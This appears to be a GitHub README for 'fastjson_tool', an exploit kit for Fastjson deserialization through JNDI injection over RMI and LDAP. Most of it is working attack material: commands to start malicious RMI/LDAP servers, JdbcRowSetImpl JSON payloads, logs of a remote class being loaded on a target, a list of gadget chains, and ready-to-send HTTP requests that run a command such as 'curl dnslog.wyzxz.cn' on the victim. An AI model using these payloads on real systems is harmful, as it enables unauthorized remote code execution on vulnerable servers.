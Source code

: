# fastjson_tool

基础命令：java -cp fastjson_tool.jar fastjson.HRMIServer x.x.x.x 4321 "需要执行的命令"

x.x.x.x为监听的主机IP
4321为端口

[root@ /]# java -cp fastjson_tool.jar fastjson.HRMIServer x.x.x.x 80 "curl dnslog.wyzxz.cn"
[-] payload:  {"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://x.x.x.x:80/Object","autoCommit":true}
[-] payload:  {"e":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"f":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://x.x.x.x:80/Object","autoCommit":true}}
[-] Opening JRMP listener on 80
[-] Have connection from /x.x.x.x:33543
[-] Reading message...
[-] Is RMI.lookup call for Exploit 2
[-] Sending remote classloading stub targeting http://x.x.x.x:80/Object.class
[-] Closing connection
[*] Have connection from /x.x.x.x:33544 /Object.class
[-] remote target jdk version: java/1.7.0_79, use payload version: jdk7
[-] send payload done and exit.

[root@ /]# java -cp fastjson_tool.jar fastjson.HLDAPServer x.x.x.x 80 "curl dnslog.wyzxz.cn"
[-] payload:  {"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://x.x.x.x:80/Object","autoCommit":true}
[-] payload:  {"e":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"f":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://x.x.x.x:80/Object","autoCommit":true}}
[-] LDAP Listening on 0.0.0.0:80
[*] Send LDAP reference result for Exploit redirecting to http://x.x.x.x:80/Object.class
[*] Have connection from /x.x.x.x:33548 /Object.class
[-] remote target jdk version: java/1.7.0_79, use payload version: jdk7
[-] remote target jdk version: java/1.7.0_79, use payload version: jdk7
[-] send payload done and exit.

================================================================================

if command need base64 encode, command should startwith bash=/powershell=/python=/perl=
example:  bash=curl dnslog.wyzxz.cn

1. RMI (need tomcat8)
java -cp fastjson_tool.jar EvilRMIServer 1099 8888 "curl dnslog.wyzxz.cn"


2. RMI/LDAP + HTTP
java -cp fastjson_tool.jar HRMIServer x.x.x.x 80 "curl dnslog.wyzxz.cn"
/
java -cp fastjson_tool.jar HLDAPServer x.x.x.x 80 "curl dnslog.wyzxz.cn"


3. LDAP2
java -cp fastjson_tool.jar fastjson.LDAPRefServer2 80 CommonsCollections1 "curl dnslog.wyzxz.cn"
CommonsBeanutils1  
CommonsCollections1
CommonsCollections2
CommonsCollections3
CommonsCollections4
CommonsCollections5
CommonsCollections6
CommonsCollections7
CommonsCollections8
CommonsCollections9
CommonsCollections10
Groovy1            
URLDNS             
JSON1              
Spring1            
Spring2            
file   （BASE64编码后的反序列内容文件）


================================================================================

rmi:
1. 启动RMI服务，后面写要执行的语句(有依赖，tomcat8稳定复现)
java -cp fastjson_tool.jar fastjson.EvilRMIServer 1099 8888 "curl dnslog.wyzxz.cn"

2. 发送请求包
POST /test HTTP/1.1
Host: 127.0.0.1
Content-Type: application/json
Accept-Encoding: gzip, deflate
Connection: close
Accept: */*
User-Agent: Mozilla/5.0 (iPhone; CPU iPhone OS 12_3_1 like Mac OS X) 

{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://127.0.0.1:1099/Object","autoCommit":true}

3. 查看日志是否curl成功

================================================================================

ldap:
1. 启动LDAP服务，后面写要执行的语句
java -cp fastjson_tool.jar fastjson.HLDAPServer x.x.x.x 80 "curl dnslog.wyzxz.cn"

2. 发送请求包
POST /test HTTP/1.1
Host: 127.0.0.1
Content-Type: application/json
Accept-Encoding: gzip, deflate
Connection: close
Accept: */*
User-Agent: Mozilla/5.0 (iPhone; CPU iPhone OS 12_3_1 like Mac OS X) 

{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://x.x.x.x:80/Object","autoCommit":true}


3. 查看日志是否执行成功







```



